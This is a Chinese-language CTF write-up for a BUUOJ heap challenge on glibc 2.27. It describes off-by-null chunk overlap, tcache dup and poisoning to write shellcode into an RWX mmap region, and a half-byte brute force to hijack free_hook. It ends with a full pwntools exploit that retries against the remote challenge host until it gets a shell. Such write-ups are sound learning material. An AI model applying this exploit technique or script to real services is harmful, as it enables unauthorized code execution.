### 保护策略：




### 漏洞所在：




在input函数中，存在一个off by null漏洞。

并且程序执行mmap来映射了一段可读可写可执行的地址，并且还把地址打印了出来。




### 大致思路：

首先是这道题映射了一段可读可写可执行的区域，同时没开沙箱，如果我们可以在这个地方写入shellcode的话，其实我们再劫持free_hook的时候，就没必要写入libc里的system地址了(直接写shellcode的地址即可)。而这道题没有show函数，所以其实可以猜测这道题出题人大概率是没打算让我们去泄露libc地址的(如果我们打io leak的话，肯定也是可以泄露的)。

所以这题主要就是去往mmap映射的内存中写入shellcode以及将free_hook给申请出来，往里面写入shellcode的地址。

#### 往mmap映射的内存里写入shellcode

我们肯定是要打一个tcache dup+tcache poisoning来将mmap映射的内存申请出来，但是没有UAF漏洞，所以我们利用off by null来打tcache dup的话，略微有点麻烦，不过问题不大。

首先是申请十个堆块，再释放掉其中的七个填满tcache bin。(还需要留一个防止一会堆块进入unsorted bin中和top chunk合并)

除此之外，我们还需要有三个堆块利用off by null完成堆块合并，然后做一个堆块重叠出来。

下图为编辑前的堆块和bins布局






下图为合并后的情况：




做出了堆块重叠后，因为是2.27的libc，因此我们直接打tcache dup+tcache poisoning即可(不过在这之前需要将tcache bin给清空)，如下图




将mmap映射出的内存申请出来，如下图：




下图为shellcode已经写入内存的情况：




#### 申请出来free_hook

在不知道libc地址的情况下，把free_hook申请出来的话，我们只能去利用unsorted bin里残留的fd指针。

在布局之前，我们先把之前申请出来的chunk全部给释放到unsorted bin中，然后申请出来(然后就不管这片内存了，我们重新执行add函数进行新的布局)。**并且需要注意的是上面打完了tcache dup，就导致0x100这条链已经坏了，所以我们之后无法再使用这条链了。**


利用思路是再进行一次堆块重叠的布局，然后这次不打tcache dup，直接先将spy chunk(堆块重叠的那个chunk)释放掉，然后让unsorted bin的fd指针落在spy chunk上，这样tcache bin链上就出现了libc地址。然后将spy chunk的内存申请出来(因为我们造成了堆块重叠，所以即可以让spy chunk处于tcache链上，同时还能把它申请出来进行编辑)去控制tcache链上的fd指针，将main_arena+88的地址修改为free_hook的地址(需要爆破半个字节)再申请出来即可。

最初我们的布局是这样：




利用off by null如下：




进行合并之后如下：




接下来就有讲究了，我们先释放掉spy chunk让其进入tcache bin中，如下




然后执行add函数申请内存，保证让unsorted bin中的fd指针落在tcache链的fd指针上。如下




最后一步将spy chunk这片申请出来(不能正好是spy chunk原本的size，不然就直接从tcache bin里拿了)，比如我写的脚本里，spy chunk的大小是0x90，这里我就申请一个0x30的chunk，就可以对这片内存进行操作了。然后去编辑刚刚申请0x30的chunk改main_arena+88为free_hook的地址，这里是需要爆破半个字节的。(本地调的时候，可以关闭ASLR就不用再爆破了)

这里我就不演示了爆破了，最后就是将爆出来的free_hook地址申请出来，写入最开始mmap映射出来的那个地址即可。最终执行free函数获取shell。


### EXP：
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
#context.log_level='debug'

context.arch='amd64'
d_a=0xC85
d_e=0xC9D
d_d=0xC91

def add(size):
    p.sendlineafter(">> ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.recvuntil("Pointer Address ")
    addr=int(p.recv(14),16)
    return addr

def delete(index):
    p.sendlineafter(">> ",str(2))
    p.sendlineafter("Index: ",str(index))

def edit(index,content):
    p.sendlineafter(">> ",str(3))
    p.sendlineafter("Index: ",str(index))
    p.sendlineafter("Content: ",content)
    
def pwn():
    p.recvuntil("Mmap: ")
    mmap_addr=int(p.recv(12),16)
    log_addr('mmap_addr')

    for i in range(10):
        add(0xf8)
        
    add(0x40)#prevent merge chunk

    for i in range(8):
        delete(i)
    #debug(p,'pie',d_d,d_a,d_e) 
    edit(8,b'a'*0xf0+p64(0x200))
    delete(9)
    for i in range(7):
        add(0xf8)

    #delete(8)
    add(0xf8)
    add(0xf8)
    delete(8)
    delete(9)#double free
    add(0xf8)
    add(0xf8)

    #add(0xf8)
    edit(8,p64(mmap_addr))
    add(0xf8)

    add(0xf8)
    edit(12,shellcode_store("shell_64"))
    #上述在完成往mmap_addr写入shellcode
    
    for i in range(9):
        delete(i)

    add(0x9f0)


    add(0x4f8)
    add(0x88)#spy chunk
    add(0x4f8)

    add(0x10)#prevent chunk
    delete(1)

    edit(2,b'a'*0x80+p64(0x590))

    delete(3)
    delete(2)
    add(0x4f8)
    
    add(0x30)
    add(0x40)
    edit(2,b'\xe8\x18')
    add(0x88)
    add(0x88)
    edit(6,p64(mmap_addr))
    delete(0)
    p.interactive()


i=0
while 1:
    try:
        #p=remote("node4.buuoj.cn",25780)
        log('----------------->',str(i))
        p,e,libc=load("a","node4.buuoj.cn:25780")
        pwn()
    except:
        p.close()
    i=i+1
```




最近快考试了，这段时间基本没有咋在buu上刷题了，不复习的时候去出了几道题。hhh，本以为再做堆的时候要比较吃力或者看看wp啥的，不过今天随便在buu上找了一道堆做了一下，没一会就做出来了，感觉还行的哈哈哈。